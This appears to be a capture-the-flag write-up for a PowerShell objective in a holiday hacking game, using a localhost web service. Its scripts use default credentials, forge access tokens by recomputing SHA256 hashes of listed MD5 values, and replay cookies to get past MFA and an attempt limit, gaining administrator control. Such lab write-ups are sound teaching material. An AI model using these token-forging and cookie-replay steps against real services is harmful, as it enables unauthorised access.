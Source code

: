 
# Objective 10: PowerShell

**Difficultree: 🎄🎄🎄**  
**Location: Front Yard (Act 2), East**

The objective is to interact with a web service using PowerShell.

## Easy 🥈
For easy, the player is guided through different activities to familiarize with PowerShell.


1:
```powershell
type welcome.txt
```

2:
```powershell
Get-Content welcome.txt | Measure-Object –Word
```

3:
```powershell
netstat -an
```

4:
```powershell
Invoke-WebRequest -URI http://127.0.0.1:1225
```

5:
```powershell
$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))
$basicAuthValue = "Basic $encodedCreds" 
$Headers = @{ Authorization = $basicAuthValue }
Invoke-WebRequest -URI http://127.0.0.1:1225 -Headers $Headers
```

6:
```powershell
foreach ($url in ((Invoke-WebRequest -URI http://127.0.0.1:1225 -Headers $Headers).Links).href){  (Invoke-WebRequest -URI $url -Headers $Headers | Measure-Object –Word).Words  | %{if($_ -match "138"){ Write-Host $url }} }
(Invoke-WebRequest -URI http://localhost:1225/endpoints/13  -Headers $Headers).Content
```

7:
```powershell
(Invoke-WebRequest -URI http://localhost:1225/token_overview.csv  -Headers $Headers).Content
```

8:
```powershell
(Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```

9:
```powershell
$s = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$c = New-Object System.Net.Cookie('token',"5f8dd236f862f4507835b0e418907ffc",'/','localhost')
$s.Cookies.Add($c)
(Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```


10:
```powershell
$tok=((Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Links).href
$c2= New-Object System.Net.Cookie('mfa_token',$tok,'/','localhost')
$s.Cookies.Add($c2)
(Invoke-WebRequest -URI http://localhost:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```

11:
```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg=="))
```

`Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction`


**Achievement: [Silver] PowerShell**

## Hard 🥇
Starting with the `token_overview.csv`, the objective is to bypass the security systems of the application.

```
file_MD5hash,Sha256(file_MD5hash)
04886164e5140175bafe599b7f1cacc8,REDACTED
664f52463ef97bcd1729d6de1028e41e,REDACTED
3e03cd0f3d335c6fb50122553f63ef78,REDACTED
f2aeb18f5b3f08420eed9b548b6058c3,REDACTED
32b9401a6d972f8c1a98de145629ea9d,REDACTED
3a79238df0a92ab0afa44a85f914fc3b,REDACTED
49c2a68b21b9982aa9fd64cf0fd79f72,REDACTED
f8142c1304efb9b7e9a7f57363c2d286,REDACTED
706457f6dd78729a8bed5bae1efaeb50,REDACTED
bb0564aa5785045937a35a9fa3fbbc73,REDACTED
4173a7bc22aee35c5fc48261b041d064,REDACTED
198b8bf2cd30a7c7fed464cca1720a88,REDACTED
3a7c8ecffeeadb164c31559f8f24a1e7,REDACTED
288e60e318d9ad7d70d743a614442ffc,REDACTED
87ab4cb29649807fdb716ac85cf560ea,REDACTED
89f3ec1275407c9526a645602d56e799,REDACTED
33539252b40b5c244b09aee8a57adbc9,REDACTED
152899789a191d9e9150a1e3a5513b7f,REDACTED
7cd48566f118a02f300cdfa75dee7863,REDACTED
d798a55fca64118cea2df3c120f67569,REDACTED
6ef5570cd43a3ec9f43c57f662201e55,REDACTED
bf189d47c3175ada98af398669e3cac3,REDACTED
743ac25389a0b430dd9f8e72b2ec9d7f,REDACTED
270aabd5feaaf40185f2effa9fa2cd6e,REDACTED
8b58850ee66bd2ab7dd2f5f850c855f8,REDACTED
6fd00cbda10079b1d55283a88680d075,REDACTED
612001dd92369a7750c763963bc327f0,REDACTED
010f2cc580f74521c86215b7374eead6,REDACTED
29860c67296d808bc6506175a8cbb422,REDACTED
7b7f6891b6b6ab46fe2e85651db8205f,REDACTED
45ffb41c4e458d08a8b08beeec2b4652,REDACTED
d0e6bfb6a4e6531a0c71225f0a3d908d,REDACTED
bd7efda0cb3c6d15dd896755003c635c,REDACTED
5be8911ced448dbb6f0bd5a24cc36935,REDACTED
1acbfea6a2dad66eb074b17459f8c5b6,REDACTED
0f262d0003bd696550744fd43cd5b520,REDACTED
8cac896f624576d825564bb30c7250eb,REDACTED
8ef6d2e12a58d7ec521a56f25e624b80,REDACTED
b4959370a4c484c10a1ecc53b1b56a7d,REDACTED
38bdd7748a70529e9beb04b95c09195d,REDACTED
8d4366f08c013f5c0c587b8508b48b15,REDACTED
67566692ca644ddf9c1344415972fba8,REDACTED
8fbf4152f89b7e309e89b9f7080c7230,REDACTED
936f4db24a290032c954073b3913f444,REDACTED
c44d8d6b03dcd4b6bf7cb53db4afdca6,REDACTED
cb722d0b55805cd6feffc22a9f68177d,REDACTED
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
```

The header leaks already, that the right hand side is a SHA256 hash of the left hand side. Some tests with [CyberChef](https://gchq.github.io/CyberChef/#recipe=SHA2%28%27256%27,64,160%29&input=NWY4ZGQyMzZmODYyZjQ1MDc4MzViMGU0MTg5MDdmZmMK) show, that this is in fact the SHA256 hash of the hex string as found on the left with a linefeed appended.

With that, all tokens can be used for validation.

Calling the token validation service returns, that a "fakeout threshold" is set to 10, in addition a cookie "attempts" is set to the [base64](https://gchq.github.io/CyberChef/#recipe=From_Base64%28%27A-Za-z0-9+/=%27,true,false%29&input=YzI1aGEyVnZhV3dLMDE) of `snakeoil`with an increasing integer appended.

Iterating over all tokens while maintaining the cookie provided access to the production and deployment of the snow cannons.

```powershell
$s = New-Object Microsoft.PowerShell.Commands.WebRequestSession
ForEach ($row in $( Invoke-WebRequest -URI http://localhost:1225/token_overview.csv  -Headers $Headers).Content -split "`r`n"){
  $token=($row -split ",")[0]
  $c = New-Object System.Net.Cookie('token',$token,'/','localhost')
  $s.Cookies.Add($c)
  $string=$token+"`n"                                        
  $hashBytes = $Sha256.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($string))
  $hash = [System.BitConverter]::ToString($hashBytes)                             
  $sha256hash=$hash.toUpper() -replace "-", ""
  $url="http://localhost:1225/tokens/"+$sha256hash                                             
  (Invoke-WebRequest -URI $url -Headers $Headers -WebSession $s).Content
  $tok=((Invoke-WebRequest -URI $url -Headers $Headers -WebSession $s).Links).href
  $c2= New-Object System.Net.Cookie('mfa_token',$tok,'/','localhost')
  $s.Cookies.Add($c2)
  $url="http://localhost:1225/mfa_validate/"+$sha256hash
  $ret=(Invoke-WebRequest -URI $url  -Headers $Headers -WebSession $s)
  $ret.Content |Add-Content -Path l
  $cook=($ret.Headers['Set-Cookie'] -split ";" -split "attempts=")[1]
  $c3= New-Object System.Net.Cookie('attempts',$cook,'/','localhost')
  $s.Cookies.Add($c3)
}
```

`<h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
`

**Achievement: [Gold] PowerShell**
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTEyMTkzNTQ4NCwxMjAwODM4NTE2LDE0OT
c2OTIxNTFdfQ==
-->